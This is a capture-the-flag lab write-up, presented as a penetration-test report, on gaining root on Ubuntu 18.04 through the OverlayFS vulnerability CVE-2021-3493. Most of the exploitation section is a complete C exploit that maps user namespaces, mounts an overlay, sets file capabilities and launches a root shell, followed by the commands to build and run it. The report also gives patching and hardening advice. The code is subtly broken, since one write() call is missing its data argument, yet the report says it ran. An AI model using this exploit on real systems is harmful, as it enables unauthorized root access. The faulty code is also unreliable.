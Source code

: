 # Vulnerability Assessment and Penetration Testing (VAPT) Report – OverlayFS Exploit Lab

**Prepared by:** Nishanth Antony  
**Date:** August 25, 2025  
**Difficulty:** Easy  
**Category:** Privilege Escalation  
**Platform:** Try Hack Me(THM) 

---

## 1. Reconnaissance Steps  
**Objective:** Confirm target availability and establish initial access.  
**Commands Used:**  
- `ping <ip_addr>`  

**Findings:**  
- Host confirmed online via ping.  
- Provided SSH credentials for user "overlay" enabled initial access.  
- Target system identified as Ubuntu 18.04 Server with OverlayFS vulnerability (CVE-2021-3493).  

---

## 2. Exploitation Process  
**Step 1 – Initial Access via SSH**  
- Logged into the target machine using provided credentials:  
  `ssh overlay@<ip_addr>`  
- Outcome: Obtained a shell as the "overlay" user.  

**Step 2 – Exploit Development**  
- Created `exploit.c` based on the SSD-Disclosure PoC:  
  ```cpp
  #define _GNU_SOURCE
  #include <stdio.h>
  #include <stdlib.h>
  #include <string.h>
  #include <unistd.h>
  #include <fcntl.h>
  #include <err.h>
  #include <errno.h>
  #include <sched.h>
  #include <sys/types.h>
  #include <sys/stat.h>
  #include <sys/wait.h>
  #include <sys/mount.h>
  int setxattr(const char *path, const char *name, const void *value, size_t size, int flags);
  #define DIR_BASE "./ovlcap"
  #define DIR_WORK DIR_BASE "/work"
  #define DIR_LOWER DIR_BASE "/lower"
  #define DIR_UPPER DIR_BASE "/upper"
  #define DIR_MERGE DIR_BASE "/merge"
  #define BIN_MERGE DIR_MERGE "/magic"
  #define BIN_UPPER DIR_UPPER "/magic"
  static void xmkdir(const char *path, mode_t mode)
  {
      if (mkdir(path, mode) == -1 && errno != EEXIST)
          err(1, "mkdir %s", path);
  }
  static void xwritefile(const char *path, const char *data)
  {
      int fd = open(path, O_WRONLY);
      if (fd == -1)
          err(1, "open %s", path);
      ssize_t len = (ssize_t) strlen(data);
      if (write(fd, len) != len)
          err(1, "write %s", path);
      close(fd);
  }
  static void xcopyfile(const char *src, const char *dst, mode_t mode)
  {
      int fi, fo;
      if ((fi = open(src, O_RDONLY)) == -1)
          err(1, "open %s", src);
      if ((fo = open(dst, O_WRONLY | O_CREAT, mode)) == -1)
          err(1, "open %s", dst);
      char buf[4096];
      ssize_t rd, wr;
      for (;;) {
          rd = read(fi, buf, sizeof(buf));
          if (rd == 0) {
              break;
          } else if (rd == -1) {
              if (errno == EINTR)
                  continue;
              err(1, "read %s", src);
          }
          char *p = buf;
          while (rd > 0) {
              wr = write(fo, p, rd);
              if (wr == -1) {
                  if (errno == EINTR)
                      continue;
                  err(1, "write %s", dst);
              }
              p += wr;
              rd -= wr;
          }
      }
      close(fi);
      close(fo);
  }
  static int exploit()
  {
      char buf[4096];
      sprintf(buf, "rm -rf '%s/'", DIR_BASE);
      system(buf);
      xmkdir(DIR_BASE, 0777);
      xmkdir(DIR_WORK, 0777);
      xmkdir(DIR_LOWER, 0777);
      xmkdir(DIR_UPPER, 0777);
      xmkdir(DIR_MERGE, 0777);
      uid_t uid = getuid();
      gid_t gid = getgid();
      if (unshare(CLONE_NEWNS | CLONE_NEWUSER) == -1)
          err(1, "unshare");
      xwritefile("/proc/self/setgroups", "deny");
      sprintf(buf, "0 %d 1", uid);
      xwritefile("/proc/self/uid_map", buf);
      sprintf(buf, "0 %d 1", gid);
      xwritefile("/proc/self/gid_map", buf);
      sprintf(buf, "lowerdir=%s,upperdir=%s,workdir=%s", DIR_LOWER, DIR_UPPER, DIR_WORK);
      if (mount("overlay", DIR_MERGE, "overlay", 0, buf) == -1)
          err(1, "mount %s", DIR_MERGE);
      char cap[] = "\x01\x00\x00\x02\xff\xff\xff\xff\x00\x00\x00\x00\xff\xff\xff\xff\x00\x00\x00\x00";
      xcopyfile("/proc/self/exe", BIN_MERGE, 0777);
      if (setxattr(BIN_MERGE, "security.capability", cap, sizeof(cap) - 1, 0) == -1)
          err(1, "setxattr %s", BIN_MERGE);
      return 0;
  }
  int main(int argc, char *argv[])
  {
      if (strstr(argv[0], "magic") || (argc > 1 && !strcmp(argv[1], "shell"))) {
          setuid(0);
          setgid(0);
          execl("/bin/bash", "/bin/bash", "--norc", "--noprofile", "-i", NULL);
          err(1, "execl /bin/bash");
      }
      pid_t child = fork();
      if (child == -1)
          err(1, "fork");
      if (child == 0) {
          _exit(exploit());
      } else {
          waitpid(child, NULL, 0);
      }
      execl(BIN_UPPER, BIN_UPPER, "shell", NULL);
      err(1, "execl %s", BIN_UPPER);
  }
  ```
- Outcome: Exploit file ready for compilation and execution.  

**Step 3 – Exploit Compilation and Execution**  
- Compiled the exploit:  
  `gcc exploit.c -o exploit`  
- Executed the binary:  
  `./exploit`  
- Outcome: Spawned a root shell (UID 0).  

**Step 4 – Post-Exploitation**  
- Navigated to `/root` and retrieved the flag:  
  `cd /root`  
  `cat flag.txt`  
- Outcome: Successfully retrieved the flag.  

---

## 3. Proof of Concept (PoC)  
- **Exploit Execution:**  
  - Compiled and ran:  
    ```bash
    gcc exploit.c -o exploit
    ./exploit
    ```
  - Resulted in a root shell, enabling access to `/root/flag.txt`.  

---

## 4. Privilege Escalation  
- Exploited OverlayFS vulnerability (CVE-2021-3493) to escalate from "overlay" user to root.  
- Used user namespace manipulation and capability setting to gain root privileges.  

---

## 5. Mitigation Recommendations  
- **Kernel Patching:**  
  - Apply Ubuntu security patches addressing CVE-2021-3493.  
  - Regularly monitor advisories from SSD-Disclosure.  
- **Disable Unnecessary Modules:**  
  - Disable OverlayFS if not required to reduce attack surface.  
- **Restrict User Namespaces:**  
  - Set `kernel.unprivileged_userns_clone=0` to prevent similar exploits.  
- **Strong Authentication:**  
  - Use complex passwords and multi-factor authentication (MFA) for SSH.  
- **Binary Execution Controls:**  
  - Implement AppArmor or SELinux to restrict binary execution.  
- **File System Security:**  
  - Enforce strict permissions on sensitive directories (e.g., `/root`).  

---

## 6. Lessons Learned  
- **Kernel Vulnerabilities:** OverlayFS misconfigurations can lead to privilege escalation.  
- **Namespace Exploitation:** Unprivileged user namespaces are a potential attack vector.  
- **System Hardening:** Regular updates and access controls are critical to prevent such exploits.  

---

## 7. Skills Practiced  
- Network reconnaissance (ping)  
- SSH access and privilege escalation  
- Exploit development and compilation (C, gcc)  
- Kernel vulnerability exploitation (OverlayFS)  
- Secure reporting and mitigation strategies  
